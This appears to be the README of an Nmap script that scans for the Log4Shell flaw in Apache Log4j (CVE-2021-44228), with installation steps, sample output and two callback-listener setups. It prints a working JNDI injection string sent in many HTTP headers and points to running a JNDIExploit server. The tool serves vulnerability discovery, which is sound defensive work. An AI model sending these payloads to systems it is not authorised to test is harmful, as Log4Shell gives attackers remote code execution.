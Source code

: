 # Nmap Log4Shell NSE script for discovery Apache Log4j RCE (CVE-2021-44228)

**CVE-2021-44228** is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:

-  Lightweight Directory Access Protocol (LDAP)
-  Secure LDAP (LDAPS)
-  Remote Method Invocation (RMI)
-  Domain Name Service (DNS)

If the vulnerable server uses log4j to log requests, the exploit will then request a malicious payload over JNDI through one of the services above from an attacker-controlled server. Successful exploitation could lead to RCE.


## Installation

Locate where your nmap scripts are located on your system:

- for *nix system it might be `~/.nmap/scripts/` or `$NMAPDIR`
- for Mac it might be `/usr/local/Cellar/nmap/<version>/share/nmap/scripts/`
- for Windows it might be `C:\Program Files (x86)\Nmap\scripts`

Copy the provided script (log4shell.nse) into that directory run `nmap --script-updatedb` to update the nmap script DB.


## Usage

    nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 172.17.42.2 
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 21:26 CET
    Nmap scan report for 172.17.42.1
    Host is up (0.000096s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | log4shell: 
    |   Payload: ${jndi:ldap:/172.17.42.1:389/log4shell/172.17.42.2/8080}
    |   Path: /
    |   Method: GET
    |   Headers: 
    |     Access-Control-Request-Method: 200 
    |     Accept: 200 
    |     Access-Control-Request-Headers: 200 
    |     Accept-Charset: 200 
    |     X-Api-Version: 200 
    |     Warning: 200 
    |     Pragma: 200 
    |     Upgrade-Insecure-Requests: 200 
    |     Range,: 400 
    |     Hostname: 200 
    |     Content-Length: 400 
    |     Dnt: 200 
    |     Date: 200 
    |     Username: 200 
    |     Content-Encoding: 200 
    |     Content-Type: 200 
    |     Forwarded: 200 
    |     Max-Forwards: 200 
    |     Accept-Encoding: 200 
    |     Referer: 200 
    |     IP: 200 
    |     IPaddress: 200 
    |     X-Amz-Date: 200 
    |     X-Amz-Target: 200 
    |     TE: 200 
    |     Content-Disposition: 200 
    |     X-Requested-With: 200 
    |     upgrade-insecure-requests: 200 
    |     Authorization: 200 
    |     Cookie: 200 
    |     User-Agent: 200 
    |     Accept-Language: 200 
    |     Proxy-Authorization: 200 
    |     Expect: 417 
    |     From: 200 
    |     Accept-Datetime: 200 
    |     X-CSRF-Token: 200 
    |     Origin: 200 
    |_  Note: (!) Inspect the callback server (172.17.42.1:389) or web-application (172.17.42.2:8080) logs

#### Arguments

- `log4shell.callback-server`: The callback server (eg. `172.17.42.1:1389`)
- `log4shell.http-headers`: Comma-separated list of HTTP headers (eg. `X-Api-Version,User-Agent,Referer`)
- `log4shell.http-method`: HTTP method (default: `GET`)
- `log4shell.url-path`: URL path (default: `/`)


### Method A:

Download JNDIExploit from GitHub (https://github.com/giterlizzi/JNDIExploit/releases/download/v1.2/JNDIExploit.zip)

Start JNDIExploit server:

    java -jar JNDIExploit.jar

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See JNDIExploit output for see the received LDAP query (log4shell/{target host}/{target port})

    [+] Received LDAP Query: log4shell/127.0.0.1/8080
    [!] Invalid LDAP Query: log4shell/127.0.0.1/8080

### Method B:

Listen a TCP port with netcat (or ncat):

    ncat -v -k -e /bin/true -l 1389

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See the target IP address in netcat (or ncat) output:

    Ncat: Connection from 172.17.0.2.
    Ncat: Connection from 172.17.0.2:38898.


# Legal Disclaimer

This project is made for educational and ethical testing purposes only. Usage of nmap-log4shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License

The project is licensed under MIT License.


# Author

- Giuseppe Di Terlizzi (giterlizzi)
